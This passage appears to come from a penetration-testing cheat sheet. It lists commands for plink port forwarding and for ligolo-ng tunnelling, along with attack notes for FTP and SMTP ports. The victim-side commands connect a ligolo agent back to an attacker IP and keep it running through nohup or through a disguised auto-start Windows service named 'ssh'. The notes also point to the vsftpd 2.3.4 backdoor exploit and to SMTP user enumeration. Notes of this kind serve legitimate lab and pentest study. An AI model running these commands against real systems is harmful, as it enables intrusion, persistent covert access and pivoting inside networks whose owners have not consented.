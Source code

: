```bash
.\plink.exe -ssh -v -N [USERNAME]@[TARGET] -L [SSH_CLIENT_PORT]:[DESTINATION_SERVER]:[DESTINATION_PORT] 
```
- <mark>Remote Port Forward</mark>
```bash
.\plink.exe -ssh -v -N [USERNAME]@[TARGET] -R [SSH_SERVER_PORT]:[DESTINATION_SERVER]:[DESTINATION_PORT] 
```
- <mark>Dynamic Port Forward</mark>
```bash
#sets up your SSH connection as a SOCKS proxy.This can be beneficial if you're in a network that restricts your access to certain sites.
.\plink.exe -ssh -v -N [USERNAME]@[TARGET] -D [SSH_CLIENT_PORT]
#However, not all applications natively support routing their traffic through a SOCKS proxy. That's where tools like `proxychains` come into play.
1. modify the `/etc/proxychains.conf`
2. proxychains command_you_want_to_run
```
#### ligolo-ng
```shell
# Attacker Machine
sudo ip tuntap add user [your_username] mode tun ligolo
sudo ip link set ligolo up
./ligolo-proxy -selfcert
# Victim Machine
# Linux: 
	nohup ./agent -ignore-cert -connect [attack_IP]:11601 &
# Windows:
	1. Start-Process -FilePath "[Path_To_agent]" -ArgumentList "-ignore-cert -connect [attack_IP]:11601" -NoNewWindow
	2. # Completely detach from session
		1. sc.exe create ssh binPath= "[Path_To_agent] -ignore-cert -connect [attack_IP]:11601" start=auto
		2. sc.exe start ssh
# After connection
session [ID]
sudo ip route add [remote_address] dev ligolo
start_tunnel
```
# Port-Specific
### Port-21-FTP
- <mark>Reconnaissance</mark>
```bash
#Check for FTP Anonymous Login
nmap -script ftp-anon <IP address> -p 21
```
- <mark>Exploit</mark>
```bash
#vsftpd V2.3.4 is vulnerable to command execution facilitated by a malicious backdoor through a supply chain attack
searchsploit -m 49757
	OR
exploits/unix/ftp/vsftpd_234_backdoor
```
### Port-25-SMTP
- <mark>Reconnaissance</mark>
```bash
#Enumerate SMTP users
auxiliary/scanner/smtp/smtp_enum
# Interesting commands:
# VRFY: VRFY request asks the server to verify an email address
VRFY root
```